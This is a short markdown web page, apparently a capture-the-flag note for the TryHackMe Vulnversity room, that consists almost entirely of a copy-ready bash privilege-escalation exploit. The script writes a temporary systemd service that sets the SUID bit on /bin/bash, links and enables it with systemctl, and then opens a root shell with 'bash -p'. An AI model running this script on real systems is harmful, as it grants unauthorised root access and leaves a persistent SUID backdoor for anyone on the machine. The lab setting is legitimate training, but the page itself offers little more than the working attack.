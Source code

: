 ```yaml
---
layout: default
---
```



## systemctl exploit for TryHackMe Vulnversity Room 

{% include codeHeader.html %}
```bash
TF=$(mktemp).service
touch $TF
cat << EOF > $TF
[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target
EOF
systemctl link $TF
systemctl enable --now $TF
bash -p
```

[back](./)

<script src="{{ "/assets/js/copyCode.js" | relative_url }}"></script>
